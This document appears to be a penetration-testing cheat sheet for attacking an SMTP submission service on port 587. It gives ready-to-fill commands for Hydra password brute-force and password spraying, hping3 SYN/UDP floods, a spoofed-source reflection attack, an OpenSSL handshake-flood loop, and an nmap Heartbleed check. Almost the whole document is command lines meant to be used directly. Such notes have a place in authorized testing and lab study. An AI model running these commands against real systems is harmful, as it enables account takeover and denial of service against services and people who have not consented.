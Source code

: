 # Exploits and Attacks

## Password Attacks

### Password Brute Force
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra <protocol>://<target_ip> -s 587 -l <username> -P <password_list>
    ```
- **Description:** Test a single username against multiple passwords.

### Password Spray
- **Tool:** [[Hydra Cheat Sheet]]
    ```bash
    hydra <protocol>://<target_ip> -s 587 -l <username_list> -P <password>
    ```
- **Description:** Test a multiple usernames against a single password.

## Denial of Service

### TCP/UPD Flood Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip> -p 587 --flood --rand-source -c 1000
    ```
- **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

### TCP/UDP Reflection Attack
- **Tool:** [[HPing3 Cheat Sheet]]
    ```bash
    hping3 <target_ip_1> -p 587 --spoof <target_ip_2> --flood --rand-source -c 1000
    ```
- **Description:** Execute a reflection attack by sending requests with a spoofed source IP, causing the target to flood the victim with responses.

### SSL/TLS Handshake Flood
- **Tool:** [[OpenSSL]]
     ```bash
     while true; do openssl s_client -connect <target_ip>:587 & done
     ```
- **Description:** Floods the service with SSL/TLS handshake requests, overwhelming the server.

## Exploits 

### Heartbleed (CVE-2014-0160)
- **Tool:** [[Nmap]]
    ```bash
    nmap --script ssl-heartbleed -p 587 <target_ip>
    ```
- **Description:** Exploiting the Heartbleed vulnerability in OpenSSL to extract sensitive information from the server's memory.
